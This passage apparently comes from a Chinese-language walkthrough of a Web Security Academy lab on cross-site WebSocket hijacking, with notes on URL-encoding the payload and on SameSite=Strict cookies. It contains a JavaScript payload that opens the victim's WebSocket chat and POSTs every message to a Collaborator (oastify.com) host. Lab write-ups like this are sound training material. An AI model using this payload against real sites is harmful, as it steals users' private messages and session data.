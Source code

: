 ```plain
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

[![](assets/1705890866-03acfbde80b7b394b5131135af7dcfb0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110845-e4590284-b5ae-1.png)  
对整个脚本进行URL编码，随后返回漏洞利用服务器新创建一个脚本，引导查看器的浏览器发送刚才测试的GET请求  
[![](assets/1705890866-340056f2915adb6dfb4dd6338563fc7f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110856-ea9f117e-b5ae-1.png)  
在响应中请注意网站在设置会话cookies时显式指定了SameSite=Strict，这可以防止浏览器在跨站点请求中包含这些Cookies

[![](assets/1705890866-545e3289467bbeff5f4d2f445d38ebc9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110914-f5da5d3c-b5ae-1.png)

